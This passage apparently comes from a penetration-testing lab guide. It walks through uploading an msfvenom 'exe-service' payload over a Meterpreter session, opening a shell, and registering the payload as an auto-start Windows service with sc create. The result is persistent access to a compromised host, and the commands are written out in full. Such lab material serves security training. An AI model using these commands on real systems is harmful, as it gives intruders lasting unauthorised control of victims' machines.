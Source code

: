      ![A screenshot depicts the results of the command.](Images/msfvenomservice.PNG)

     - The format must be `exe-service` and not just `exe`. Executables run by Service Manager are different from regular executables.

8. In the Meterpreter shell, upload the executable you created by using the following commands:

	 - `cd ../../../`
	 - `upload service.exe`

     ![A screenshot depicts the results of the command.](Images/uploadWIN10.PNG)

9. Enter a command shell in your Meterpreter shell:

	 - `shell`
	
10. Create a new service that will use your payload with the following command:

	 - `sc create TestService binPath= "C:\service.exe" start= auto`

     ![A screenshot depicts the results of the command.](Images/makeservice.PNG)
